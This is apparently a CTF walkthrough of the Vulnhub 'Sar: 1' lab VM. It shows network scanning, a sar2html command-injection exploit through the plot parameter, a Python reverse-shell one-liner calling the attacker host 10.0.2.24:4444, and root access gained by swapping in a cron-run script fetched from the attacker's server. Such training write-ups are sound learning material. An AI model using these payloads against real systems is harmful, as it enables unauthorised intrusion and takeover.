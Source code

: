 
|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **Sar: 1**

Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.  It is a Linux box and released on Feb 15, 2020.

Download : [Vulnhub - Sar: 1](https://www.vulnhub.com/entry/sar-1,425/)  
Format   : VirtualBox (OVA)  
DHCP     : Enabled  

Since the ```netdiscover``` is not working properly at my Kali 2020.1, I use ```nmap``` instead to get the IP address of the Sar:1 box which is on ```10.0.2.18```.  My Kali box is on ```10.0.2.24```.

```bash
samiux@kali:~$ nmap 10.0.2.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-09 22:17 HKT
Nmap scan report for 10.0.2.1
Host is up (0.00033s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain

Nmap scan report for 10.0.2.2
Host is up (0.0011s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
631/tcp open  ipp

Nmap scan report for 10.0.2.18
Host is up (0.0012s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 10.0.2.24
Host is up (0.0015s latency).
All 1000 scanned ports on 10.0.2.24 are closed

Nmap done: 256 IP addresses (4 hosts up) scanned in 3.37 seconds
```

Run ```nmap``` for the port scan on the Sar:1 box.

```bash
samiux@kali:~$ nmap -A -p- 10.0.2.18
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-09 22:19 HKT
Nmap scan report for 10.0.2.18
Host is up (0.00094s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.74 seconds
```

The scan shows that port 80 is opened only.  Thus, ```gobuster``` is used for scanning the directories of the box.

```bash
samiux@kali:~$ gobuster dir -u http://10.0.2.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.18
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2020/03/09 22:20:54 Starting gobuster
===============================================================
/index.html (Status: 200)
/robots.txt (Status: 200)
/phpinfo.php (Status: 200)
/server-status (Status: 403)
===============================================================
2020/03/09 22:26:48 Finished
===============================================================
```

Opens the ```Firefox``` to browse on the ```10.0.2.18```.  Then browses ```robots.txt``` also.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-001.png)  

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-002.png)  

The ```robots.txt``` shows ```sar2HTML```.  Browses to it and it shows ```sar2html``` application.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-003.png)  

Conducts a ```searchsploit``` on Kali box.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-004.png)  

The content of the result is :

```bash
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute
the command you entered. After command injection press "select # host" then your command's
output will appear bottom side of the scroll screen.
```

Clicks on ```NEW``` on the left hand side and it shows the url is ```http://10.0.2.18/sar2HTML/index.php?plot=NEW```.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-005.png)  

Tests it with ```;id``` and it can execute command ```id```.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-006.png)  

After several tries and errors, it is confirmed that ```python3``` and ```bash``` are installed on the box.  I try to use bash as reverse shell but failed.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-007.png)  

## **Reverse shell and user.txt**

Places the following python3 command on the url.

```bash
;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.24",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

And runs the listener at another terminal on Kali.

```bash
nc -lvp 4444
```

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-008.png)  

I find out that ```finally.sh``` and ```write.sh``` are at ```/var/www/html``` of the box.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-009.png)  

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-010.png)  

After a search on ```/home/love/Desktop```, I find the ```user.txt``` key.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-011.png)  

## **Reverse shell and root.txt**

Back to the ```finally.sh``` and ```write.sh```.  After a search, I find ```/etc/crontab``` which runs ```finally.sh``` on every 5 minutes.  However, I cannot see the file namely ```gateway``` at ```/tmp``` after 5 minutes or so.

After thinking for a while, I make up my mind to replace the ```write.sh``` with my own copy.  I prepare the ```write.sh``` at ```/var/www/html``` of my Kali box and then starts the Apache2 web server.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-012.png)  

Download my own copy of ```write.sh``` to the box and makes it executable.  Prepares another listener at port 7777 on Kali.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-013.png)  

After 5 minutes or so, I get the reverse shell and the ```root.txt``` is on ```/root```.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-014.png)  

Root is dancing!

## **Final thought**

This Capture The Flag (CTF) is based on a realistic vulnerability.  To get the ```root.txt``` is however a little bit tricky.  Anyway, it is a very good box to play with.  Recommended.

Samiux  
OSCE  OSCP  OSWP  
Mar 10, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|
